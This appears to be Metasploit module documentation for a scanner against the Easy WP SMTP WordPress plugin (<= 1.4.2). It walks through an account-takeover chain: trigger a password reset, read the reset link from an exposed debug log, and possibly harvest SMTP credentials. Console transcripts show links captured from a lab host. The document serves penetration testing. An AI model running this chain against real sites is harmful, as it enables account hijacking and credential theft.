 ## Vulnerable Application

Wordpress plugin Easy WP SMTP versions <= 1.4.2 was found to not include index.html within its plugin folder.
This potentially allows for directory listings.  If debug mode is also enabled for the plugin, all SMTP
commands are stored in a debug file.
Combining these items, it's possible to request a password reset for an account, then view the debug file to determine
the link that was emailed out, and reset the user's password.

This module will list ALL reset links, most likely the last one is the one that will work, however there
may be value in the others as well (such as other users).  The debug log saved in loot may also contain
the SMTP username and password.

There is one potential false negative case where the `aggressive` option should be used.
If debug mode was enabled, however only the `Test Email` was used (or no legit email has been sent by the server),
the debug file won't exist yet.  This will be remedied by the first password reset request, but to avoid this module
being too noisy, it won't happen unles `aggressive` is set to `true`.

To summarize:

1. Vulnerable version of Easy WP SMTP
1. debug turned on for Easy WP SMTP
1. SMTP configured for Easy WP SMTP
1. direcotry listings enabled

### Install

1. Install wordpress
1. Download and install [Easy WP SMTP](https://wordpress.org/plugins/easy-wp-smtp/advanced/) <= 1.4.2
1. Browse to Settings > Easy WP SMTP
    1. Configure the plugin (SMTP Host, SMTP Port, UN/PASS)
    1. Additional Settings > Enable Debug Log (Check this value, click Save Changes)

## Verification Steps

1. Install Wordpress, Easy WP SMTP, and configure it
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_easy_wp_smtp`
1. Do: `set rhost [ip]`
1. Do: `set USER [username]`
1. Do: `run`
1. You should get the link to reset the user's password

## Options

### User

The username to reset the password of.  Defaults to `Admin`

### Aggressive

When `true`, if directory listings are enabled, however debug file can not be found, the code will proceed anyways.
Defaults to `false`.

## Scenarios

### Easy WP SMTP 1.4.1 on Wordpress 5.4.4 running on Ubuntu 20.04

```
resource (wp_easy_wp_smtp.rb)> use auxiliary/scanner/http/wp_easy_wp_smtp
resource (wp_easy_wp_smtp.rb)> set verbose true
verbose => true
resource (wp_easy_wp_smtp.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (wp_easy_wp_smtp.rb)> run
[*] Checking /wp-content/plugins/easy-wp-smtp/readme.txt
[*] Found version 1.4.1 in the plugin
[+] Vulnerable version detected
[+] Found debug log: /wp-content/plugins/easy-wp-smtp/5fcfd49e879f9_debug_log.txt
[*] Sending password reset for Admin
[+] Debug log saved to /home/h00die/.msf4/loot/20201208204705_default_1.1.1.1_5fcfd49e879f9_de_209239.txt.  Manual review for possible SMTP password, and other information.
[*] admin password reset: http://1.1.1.1/wp-login.php?action=rp&key=IdlSwWkIuy0f7k79OU2p&login=admin
[*] Finished enumerating resets.  Last one most likely to succeed
[*] Scanned 1 of 1 hosts (100% complete)
```

### Easy WP SMTP 1.4.1 on Wordpress 5.4.4 running on Ubuntu 20.04.  Aggressive mode

```
resource (easy-wp-smtp.rb)> use auxiliary/scanner/http/wp_easy_wp_smtp
resource (easy-wp-smtp.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (easy-wp-smtp.rb)> set verbose true
verbose => true
resource (easy-wp-smtp.rb)> run
[*] Checking /wp-content/plugins/easy-wp-smtp/readme.txt
[*] Found version 1.4.1 in the plugin
[+] Vulnerable version detected
[*] Checking for debug_log file
[-] not-vulnerable: Either debug log not turned on, or directory listings disabled.  Try AGGRESSIVE mode if this is a false positive
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

```
resource (easy-wp-smtp.rb)> set aggressive true
aggressive => true
resource (easy-wp-smtp.rb)> run
[*] Checking /wp-content/plugins/easy-wp-smtp/readme.txt
[*] Found version 1.4.1 in the plugin
[+] Vulnerable version detected
[*] Checking for debug_log file
[-] Debug file not found, bypassing check due to AGGRESSIVE mode
[*] Sending password reset for Admin
[*] Checking for debug_log file
[+] Debug log saved to /home/h00die/.msf4/loot/20201218152659_default_1.1.1.1_5fcfd49e879f9_de_812609.txt.  Manual review for possible SMTP password, and other information.
[*] admin password reset: http://1.1.1.1/wp-login.php?action=rp&key=SQRBS8Hpro9jPQdZ9vP5&login=admin
[*] Finished enumerating resets.  Last one most likely to succeed
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
